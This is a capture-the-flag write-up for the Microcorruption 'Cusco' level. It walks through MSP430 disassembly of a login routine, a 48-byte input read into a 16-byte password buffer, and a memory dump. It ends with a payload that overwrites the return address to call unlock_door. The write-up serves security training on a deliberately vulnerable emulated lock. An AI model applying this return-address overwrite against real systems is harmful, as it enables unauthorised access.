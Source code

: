 # MicroCTF Writeup


Author: [Samarth Arora](https://github.com/Samadeol) 

Level: Cusco

## Walkthrough

 `unlock_door` function is not accessible directly from login because r15 is always 0.
This is because the code where `unlock_door` is called is always jumed over cuz there exists a ```jz``` command.
```
4500 <login>
4500:  3150 f0ff      add    #0xfff0, sp
4504:  3f40 7c44      mov    #0x447c "Enter the password to continue.", r15
4508:  b012 a645      call    #0x45a6 <puts>
450c:  3f40 9c44      mov    #0x449c "Remember: passwords are between 8 and 16 characters.", r15
4510:  b012 a645      call    #0x45a6 <puts>
4514:  3e40 3000      mov    #0x30, r14
4518:  0f41           mov    sp, r15
451a:  b012 9645      call    #0x4596 <getsn>
451e:  0f41           mov    sp, r15
4520:  b012 5244      call    #0x4452 <test_password_valid>
4524:  0f93           tst    r15
4526:  0524           jz    #0x4532 <login+0x32>
4528:  b012 4644      call    #0x4446 <unlock_door>
452c:  3f40 d144      mov    #0x44d1 "Access granted.", r15
4530:  023c           jmp    #0x4536 <login+0x36>
4532:  3f40 e144      mov    #0x44e1 "That password is not correct.", r15
4536:  b012 a645      call    #0x45a6 <puts>
453a:  3150 1000      add    #0x10, sp
453e:  3041           ret
```
The code takes input of 48 bytes even though password can be a maximum of 16 bytes.
```4514:  3e40 3000      mov	#0x30, r14```
So i tried putting in a huge password like `aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaabbjbfakjdflkjasdhflkjas ` and upon running i found that the disassembly was written over.
So our possible bet to overwrite the code such that the `login` function 'returns' the `unlock_door` functin.
To accomplish this we need to know where the stack pointer when the return statement is being executed.
so we break at the line `453e:  3041           ret` 
and then we observe the sp 
`sp  43fe`
then looking at the memory dump
```
43e0:   5645 0300 ca45 0000 0a00 0000 3a45 5050   VE...E......:EPP
43f0:   5050 5050 5050 5050 5050 5050 5050 4644   PPPPPPPPPPPPPPFD
4400:   0040 0044 1542 5c01 75f3 35d0 085a 3f40   .@.D.B\.u.5..Z?@
```
So we see that at the offset 0x11 we nee to enter the memory address `4446` keeping in mind 
the endianness.
So the final payload must be `505050505050505050505050505050504644` which should unlock the door.

## Password

`505050505050505050505050505050504644`

## Resources

`https://en.wikipedia.org/wiki/Endianness`